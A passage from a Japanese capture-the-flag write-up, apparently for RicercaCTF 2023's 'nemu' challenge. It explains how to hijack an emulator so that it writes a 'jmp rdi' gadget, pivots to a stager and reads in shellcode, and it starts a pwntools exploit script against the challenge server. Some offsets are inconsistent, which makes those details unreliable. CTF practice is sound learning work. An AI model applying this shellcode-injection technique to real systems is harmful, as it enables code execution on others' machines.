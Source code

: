 add関数の呼び出し前にreadreg関数が呼び出されているのでraxには&r0が入っている。readreg関数の返り値はadd関数の第一引数になるのでrdiにも&r0が入っている。rsiとrdxは0になっていた。
read sytem callの第二引数が入力を読む先になるが、これが&r0だとまずい。なぜならstagerのjmp rsiの部分を上書きしてしまうからである。そこでrdiに0x10を足して&r0 + 0x10にshellcodeを読み込むようにしている。stagerのサイズは0x10以下なのでこれで上書きされる心配はない。あとはxchg命令でrdiとrsi, eaxとedxを入れ替えれば以下のようになって引数が準備できる。(rdxには何か大きな値を入れておけばよいのでこれで問題ない)
```
rdi = 0
rsi = &r0 + 0x10
rax = 0
rdx = &r0の下位4byte
```
read system callによって&r0 + 0x10にshellcodeを読み込み、stagerの最後、jmp rsiによってshellcodeに実行が移る。問題はどうやって&r0に実行を移すかだ。ADD命令を呼んだ際&r0 + 0x4にあるコードが実行されれることが分かっている。この部分が実行される際、rdiにはreadreg関数の戻り値が入っているのでこれを利用して&r0に処理を移す。具体的には&r0 + 0x4にjmp rdiを書き込んだ上でopecode: 6(add), operand: r0を実行する。すると&r0 + 0x4に置いたjmp rdiが実行される。rdiには&r0が入るのでこれでstagerに実行が移る。jmp rdiは機械語に直すと0xffe7になる。これを&r0 + 0x4に書き込むために以下のようにする。

1. opecode: 1(LOAD), operand: 0xe7ff000
2. opecode: 2(MOV), operand: r1
これでr1に0xe7ff0000が書き込まれる。リトルエンディアンであることに注意。
3. opecode: 4(DBL), operand: r1を16回呼び出す。
1bit左シフトすることは数値を2倍することに等しいことに注意。16進数1桁は4bitなので1桁左にずらすには4回2倍すればよい。なので16回2倍すると16進数4桁分左にずれる。これにより&r0 + 0x10に0xe7ff(jmp rdi)が書き込まれる。

後はopecode: 6(ADD), operand: r0を実行すれば&r0 + 0x10にあるjmp rdiが呼ばれ、rdiには&r0が入っているので&r0に処理が移り、&r0にはstagerがあるので&r10 + 0x10にshellcodeを読み込み、stagerの最後のjmp rsiによって&r10 + 0x10に移り、shellcodeが実行される。最終的なexploitは以下のようになる。r0, r3, r2, r1の書き込み順には注意が必要。前述の通りmov関数は4byte overflowするので後ろの4byteが0クリアされてしまうから。そこでr3, r2, r1の順で書き込みを行っている。r0にはADDI命令で書き込みを行う。これによりr3に影響を与えることなくr0に値を書き込むことができる。

```python: exploit.py
from pwn import *

binfile = './chall'
elf = ELF(binfile)
context.binary = elf
context.log_level = 'critical'
context.terminal = ["tmux", "splitw", "-h"]

HOST = 'nemu.2023.ricercactf.com'
PORT = 9002

gs = '''
b main
c
'''

def start():
    if args.GDB:
        return gdb.debug(binfile, gdbscript = gs)
    elif args.REMOTE:
        return remote(HOST, PORT)
    else:
        return process(binfile)

io = start()

def load(num: hex):
    io.sendlineafter(b'opcode: ', str(1).encode())
    io.sendlineafter(b'perand: ', ('#%d'%(num)).encode())

def mov(i: int):
    io.sendlineafter(b'opcode: ', str(2).encode())
    io.sendlineafter(b'operand: ', ('r%d'%(i)).encode())

def inc(i: int):
    io.sendlineafter(b'opcode: ', str(3).encode())
```